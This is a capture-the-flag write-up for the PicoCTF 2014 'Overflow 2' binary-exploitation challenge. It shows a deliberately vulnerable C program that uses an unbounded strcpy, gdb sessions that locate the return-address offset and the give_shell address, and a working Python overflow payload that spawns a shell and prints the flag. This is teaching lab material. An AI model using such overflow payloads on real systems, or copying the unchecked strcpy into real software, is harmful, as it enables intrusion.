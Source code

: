 # Pico-CTF 2014: Overflow 2

**Category:** Binary Exploitation
**Points:** 70
**Total Solves:** Not Available
## Problem Description:
[//]: # (Description of your problem. For eg use below description as a template)
[//]: # (> This program is vulnerable to a format string attack! See if you can modify a variable by supplying a format string! The binary can be found at /home/format/ on the shell server. The source can be found [here](format.c).)
> This problem has a buffer overflow vulnerability! Can you get a shell? You can solve this problem interactively here, and the source can be found [here](overflow2.c).

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

/* This never gets called! */
void give_shell(){
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
    system("/bin/sh -i");
}

void vuln(char *input){
    char buf[16];
    strcpy(buf, input);
}

int main(int argc, char **argv){
    if (argc > 1)
        vuln(argv[1]);
    return 0;
}
```

## Write-up
[//]: # (> Your write up goes here.)
> There is a buffer overflow vulnerability in this c program, the argument passed as string is directly getting copied to variable buf withou checking any bounds in function vuln().

```c
void vuln(char *input){
    char buf[16];
    strcpy(buf, input);
}
```
> If we give input more than 16 character strcpy will start overriding the stack.
To get the flag we need to call function give_shell(), in order to do so we can override stack of vuln function so that when its execution finishes control goes to give_shell() function. 
So, first we need to figure out the address of function give_shell(). Fot that we can use gdb.

```bash
pico74093@shell:/home/overflow2$ gdb overflow2
GNU gdb (Ubuntu 7.7.1-0ubuntu5~14.04.2) 7.7.1
Copyright (C) 2014 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from overflow2...(no debugging symbols found)...done.
(gdb) p &give_shell
$1 = (<text variable, no debug info> *) 0x80484ad <give_shell>
(gdb)
```

> Now we have address of function to write on stack of function vuln() we need figure out how much char we need to write on stack using strcpy so that address of give_shell() `x80484ad` get written at exact place, which just after 4 bytes after the address stored at`EBP`. Why because EBP stores the BP (Base pointer) of previous caller function, in this can main but we want it to be give_shell(). To figure out the lngth of char string which we are going to pass we can pass randowm characters like "aaaaa" and see how much far it is from address stored at register EBP.

```
(gdb) p &vuln
$2 = (<text variable, no debug info> *) 0x80484e2 <vuln>
(gdb) disassemble vuln
Dump of assembler code for function vuln:
   0x080484e2 <+0>:     push   %ebp
   0x080484e3 <+1>:     mov    %esp,%ebp
   0x080484e5 <+3>:     sub    $0x28,%esp
   0x080484e8 <+6>:     mov    0x8(%ebp),%eax
   0x080484eb <+9>:     mov    %eax,0x4(%esp)
   0x080484ef <+13>:    lea    -0x18(%ebp),%eax
   0x080484f2 <+16>:    mov    %eax,(%esp)
   0x080484f5 <+19>:    call   0x8048360 <strcpy@plt>
   0x080484fa <+24>:    leave
   0x080484fb <+25>:    ret
End of assembler dump.
(gdb) b *0x080484fa
Breakpoint 1 at 0x80484fa
(gdb) r "aaaaaa"
Starting program: /home/overflow2/overflow2 "aaaaaa"

Breakpoint 1, 0x080484fa in vuln ()
(gdb) x /x $ebp-24
0xffffd6a0:     0x61616161
(gdb) x /x $ebp-23
0xffffd6a1:     0x61616161
(gdb) x /x $ebp-25
0xffffd69f:     0x61616108
(gdb) x /x $ebp-26
0xffffd69e:     0x61610804
(gdb)
```

> From above we can see that we need to pass more than 24 charcters to overwrite the content stored at address stored at register EBP. We need to also overwrite the returning adddress, so our string to passed as argument can be: `aaaaaaaaaaaaaaaaaaaaaaaaaaaa\xad\x84\x04\x08`. Here address is in reverese order because machine is little endian.
We can execute the binary as:

```bash
pico74093@shell:/home/overflow2$ ./overflow2 $(python -c 'print "a"*28 + "\xad\x84\x04\x08"')
$ whoami
pico74093
$ cat flag.txt
controlling_%eip_feels_great
```

> Flag is **controlling_%eip_feels_great**

## Other write-ups and resources

* None
